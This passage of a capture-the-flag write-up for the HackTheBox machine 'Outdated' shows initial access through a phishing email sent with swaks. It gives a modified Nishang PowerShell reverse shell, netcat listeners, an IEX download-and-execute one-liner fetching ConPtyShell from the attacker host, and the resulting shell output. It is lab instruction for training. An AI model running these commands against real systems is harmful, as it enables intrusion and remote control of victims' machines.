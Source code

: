 In order to execute our reverse shell with Powershell we'll extract this html file into an index.html to serve it with a web server:
```bash
curl -s http://localhost/exploit.html > index.html
```
Then we need to move the [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) shell to the same location as index.html and modify it as follows (at the end of the file):
```bash
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443
```
This line will execute the powershell invoked method to connect once downloaded to the victim machine, afterwards we need to start the following:
1) Web Server
```bash
python3 -m http.server 80
```
1) Send the swaks payload
```bash
swaks --to itsupport@outdated.htb --from shuciran@shuciran.com --body "http://10.10.14.2" --header "Subject: Monitoring internal IP"
```
1) Start the listener port 443:
```bash
nc -lvnp 443
```
After several tries and machine restarts we get a reverse shell:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.175 - - [25/Jan/2023 05:04:34] "GET / HTTP/1.1" 200 -
10.10.11.175 - - [25/Jan/2023 05:04:35] "GET /reverse.ps1 HTTP/1.1" 200 -
--------------------------------------------------------------
PS C:\Users\btables\AppData\Local\Temp\SDIAG_64b29fa4-be09-4f14-8dc4-baba9ddd62ec>
whoami
outdated\btables
```
Now is time to generate a full tty shell, for that we'll use [Invoke-ConPTYShell.ps1](https://github.com/antonioCoco/ConPtyShell) which will be modified as follows: [^full-tty-windows]
```powershell
class MainClass
{
    static void Main(string[] args)
    {
        Console.Out.Write(ConPtyShellMainClass.ConPtyShellMain(args));
    }
}

"@;
Invoke-ConPtyShell -RemoteIp 10.10.14.2 -RemotePort 443 -Rows 43 -Cols 186
```
This command line will download and execute this file from the victim machine so you need to open your -RemotePort first with netcat without rlwrap.
```powershell
PS C:\Users\btables\AppData\Local\Temp\SDIAG_64b29fa4-be09-4f14-8dc4-baba9ddd62ec> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-ConPtyShell.ps1')
```
Once that we receive the shell we need to Ctrl+Z and execute the command stty as usual:
#Note Do not enter "_reset xterm_" after "_stty raw -echo; fg_" command
```bash
nc -lvnp 1234
```

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio
[^full-tty-windows]: Fully Interactive TTY with ConPTY
[^follina]: Follina Exploitation